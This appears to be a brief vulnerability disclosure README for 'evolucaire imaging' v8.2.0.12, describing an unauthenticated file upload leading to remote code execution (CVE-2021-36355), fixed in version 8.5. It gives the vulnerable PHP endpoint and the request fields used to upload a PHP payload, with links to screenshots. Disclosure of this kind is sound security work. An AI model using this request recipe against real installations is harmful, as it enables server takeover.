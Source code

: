 # evolucaire

- evolucaire imaging v8.2.0.12 
 - unrestricted file upload & RCE
 - fixé en version 8.5

- upload unauthenticated sur : 
  - /php/etmi/save-uploaded-filedrag.php
    - data=data:text/plain;base64,<payload_b64>
    - name=phpinfo.php
    - base_directory=doc/temp
    - base_name=pdfdoc

- statut : CVE id affected : CVE-2021-36355

- run :

![](./run.png)

![](./run2.png)

- Support answer, the vuln is fixed :

![](./alert.png)